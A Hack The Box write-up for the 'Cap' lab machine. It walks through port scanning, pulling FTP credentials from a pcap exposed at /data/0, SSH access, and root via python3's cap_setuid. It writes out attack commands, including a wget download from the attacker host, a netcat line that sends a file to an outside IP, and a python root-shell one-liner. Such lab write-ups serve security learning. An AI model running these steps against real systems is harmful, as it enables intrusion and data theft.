# Writeup for [Cap](https://app.hackthebox.eu/machines/Cap) from [Hack The Box](https://app.hackthebox.eu/)

## Table of Contents

<!-- MarkdownTOC -->

- [Machine Information](#machine-information)
- [Information Gathering and Enumeration](#information-gathering-and-enumeration)
	- [FTP](#ftp)
	- [HTTP Server](#http-server)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)

<!-- /MarkdownTOC -->


## Machine Information

* OS		 : Linux
* Difficulty : Easy
* Points	 : 20
* IP		 : 10.10.10.245

## Information Gathering and Enumeration

As usual we start things off with a port scan on the box.

```bash
nmap -sCV -oN nmap/cap -vv 10.10.10.245
```

We can see that there are 3 ports open, FTP on 21, SSH on 22, and HTTP on 80.



The version of SSH seem up to date so we will be looking at FTP and HTTP for our enumeration.

### FTP
First I always try to do anonymous login on FTP by supplying `anonymous` as the username and a blank password.

```bash
ftp 10.10.10.245
```



Looks like anonymous login is disabled and we can now start enumerating the HTTP server

### HTTP Server

Before we start any manual enumeration on the web app, let's start some background recon while we work. I'm going to run `gobuster` on the web app to potentially grab directories and files.

It is always good to check what type of website this is by appending `/index.extension` to the address ( `http://10.10.10.245/index.php` or `http://10.10.10.245/index.html`) so we can use this for `gobuster`. I tried some basic extensions such as `php`, `html`, and `asp` but did not get anything, so we're just going to have to run `gobuster` without the extensions flag (`-x`).

```bash
gobuster dir -u 10.10.10.245 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -t 20 -o gobuster/raft-small-root.log 
```

Now that we have `gobuster` running in the background, it's time to poke at this manually.



Now looking at the page we can see some information. We can see that we are currently logged in as `nathan` meaning that may be a potential user on the box ( even though this is static on the page, it's still some good info to keep in mind).

We can also see that we have a few entries on the dashboard that goes to a page. We can see the page/directory it's linked to from the bottom left/right corner of the screen.

Going to the `/ip` and `/netstat` page, we can see a page that looks like the output of `ifconfig` and `netstat` command on linux. I tried to dig some information from there but got nothing really useful.

On the other hand, `/capture` loads slowly and then redirects us to `/data/` with a number appended to the end of it. I find the slow loading part quite odd since the page loads quickly on `/ip` and `/netstat`, so I figured either there's something wrong with my connection at that time or it is a functionality on the web page.

After we get redirected to `/data/[number]`, we can see some info and able to download a `pcap` file.



We get that file, and inspect it with `wireshark`. I'm going to use the pcap file that I downloaded when solving this box the first time so I can explain how this web app works. 

Open up wireshark and let's follow this TCP stream, and this is what I got.



This pcap file is from `gobuster` that we were running, at least when I solved this box initially. This means that `/capture` page must have been catching requests, probably with `tcpdump` or something of the sorts and outputs it to a pcap file. The slow loading part must be when the page is actually catching those requests since this pcap file only shows a few entries from gobuster of the \~40000 entries from the wordlist.

I then tried to look for potential exploits for this but sadly it was a rabbit hole. After around 40 minutes of research on pcap exploitation, I just figured that this may not be the vector to get user and I gave up on this.

Being tired from that pcap research and the fact that this is my first box after a year break from security stuff, I was pretty rusty and searched for some hints in the [forums](https://forum.hackthebox.eu/). Then I saw a super useful hint that says something like **"1 is not always the first number"** or something like that, and that I realized that I never actually tried to search numbers below 1 on the `/data/` page, I always tried to increment it by 1. Being a programmer myself I was disappointed that I actually didn't think of this. Well we live and we learn. 

Navigating to `/data/0`, we the same page with some data and a downloadable part. Download the pcap and inspecting it with wireshark, we can see the FTP credentials clearly in plain text.



To get a better view on it, we can always right click it and follow the TCP stream for better output.



## Exploitation

Now that we have credentials for FTP, let's try to login again.



We land directly on the home page, please ignore that `linux-exploit-suggester.sh` and the **ELF** file since that should not be part of the box.
>**ALWAYS clean up your tracks after solving a box!**

We can also try to SSH in as nathan with these credentials that we found, and we get a shell as `nathan`.

```bash
ssh nathan@10.10.10.245
```

## Privilege Escalation

Upon landing on the box, we should **ALWAYS** check for `sudo` permission with `sudo -l`. Sadly we are not allowed to run sudo on this box as `nathan`.

Now, let's open another SSH session and run [linpeas](https://github.com/carlospolop/PEASS-ng) on the box while we try to enumerate manually for PE vectors.

Open up a python3 simple web server on the directory with linpeas on our attacker box.
```bash
python3 -m http.server
```

And we retrieve the script to the victim box. I usually cd to a more hidden directory to download this something like `/dev/shm`.
```bash
cd /dev/shm && wget http://10.10.14.63:8000/linpeas.sh
```

While linpeas is running, let's check out the functionality of that web server by going to `/var/www/html`. Looks like it's a python application. I'm going to copy that file to my local box so I can inspect it further and do some tests if necessary.

This is quite a neat trick I use to copy binaries and other files

Setup a listener on your local attacker box that will redirect output to a file
```bash
nc -lnvp 9001 > app.py
```

cat the file and pipe that over to netcat
```bash
cat app.py | nc 10.10.14.63 9001
```


>**please note that this method will not give any output if the transfer is complete and we must interrupt it with `Ctrl+C`. So always check the sum of both files, I use md5sum**

Inspecting the file in a text editor, I found a potentially vulnerable block of code.



It is running `os.setuid(0)` that effectively gives us root permission. But we can see that this file is owned by `nathan` on the box, we can verify that by running `ls -l` on `/var/www/html/app.py`.

And since `nathan` is not allowed to run **sudo**, this maybe either `SUID` or something related to `Capabalities`. We can check `SUID` binaries on the box by running;
```bash
find / -perm 4755 2>/dev/null
```



We see no python on the SUID output, meaning that python might be running with the `cap_setuid` capability. Read more about capabilities [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)


we can verify this by running `getcap` and we should see python having this capability.
```bash
getcap -r / 2>/dev/null
```



Linpeas also verifies this.



Now that we know we have this capability to change our UID, we can just pop a root shell

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

